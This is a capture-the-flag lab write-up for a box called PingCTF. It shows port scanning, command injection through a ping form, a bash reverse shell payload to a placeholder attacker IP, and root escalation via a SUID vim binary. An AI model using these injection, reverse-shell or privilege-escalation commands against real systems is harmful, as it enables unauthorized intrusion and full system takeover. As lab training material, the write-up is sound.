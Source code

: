 # PingCTF

## Port Enumeration

We began by scanning the target with Nmap during the discovery phase. The following open port was identified:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64

```

## Exploring Web Page

Browsing to port 80, we discovered a Ping panel. It accepts an IP address as input, presumably to perform a system ping command. However, initial tests didn’t display any useful output.

![alt text](Imagenes/Pingctf_1.png)

![alt text](Imagenes/Pingctf_2.png)

To test for command injection, we attempted to append a simple command using a semicolon (;). For example:

```shell
127.0.0.1;whoami
```

This successfully executed and revealed that the web server was running as the `www-data` user.

## Initial Access
With command injection confirmed, we attempted to gain an interactive shell. Setting up a listener:

```shell
nc -lvnp 4444
```
We then executed a reverse shell payload via the vulnerable input:

```shell
127.0.0.1; bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'
```

This provided a basic reverse shell. To improve usability, we stabilized the shell with a pseudo-TTY.

## Privileges escalation
The first attempt was to check sudo privileges, but sudo was not installed on the system. We then enumerated SUID binaries:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```
Among the results, /usr/bin/vim.basic stood out:
```shell
  1704323     72 -rwsr-xr-x   1 root     root        72792 May 30  2024 /usr/bin/chfn                                         
  1704390     76 -rwsr-xr-x   1 root     root        76248 May 30  2024 /usr/bin/gpasswd                                      
  1704449     52 -rwsr-xr-x   1 root     root        51584 Dec  5  2024 /usr/bin/mount                                        
  1704465     64 -rwsr-xr-x   1 root     root        64152 May 30  2024 /usr/bin/passwd                                       
  1704557     40 -rwsr-xr-x   1 root     root        39296 Dec  5  2024 /usr/bin/umount                                       
  1704329     44 -rwsr-xr-x   1 root     root        44760 May 30  2024 /usr/bin/chsh                                         
  1704531     56 -rwsr-xr-x   1 root     root        55680 Dec  5  2024 /usr/bin/su                                           
  1704454     40 -rwsr-xr-x   1 root     root        40664 May 30  2024 /usr/bin/newgrp                                       
  1722546   4032 -rwsr-xr-x   1 root     root      4126400 Apr  1 20:12 /usr/bin/vim.basic 
```

Using GTFOBins, we exploited vim to spawn a root shell:
```shell
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```

This successfully escalated privileges to the root user.

![alt text](Imagenes/Pingctf_3.png)

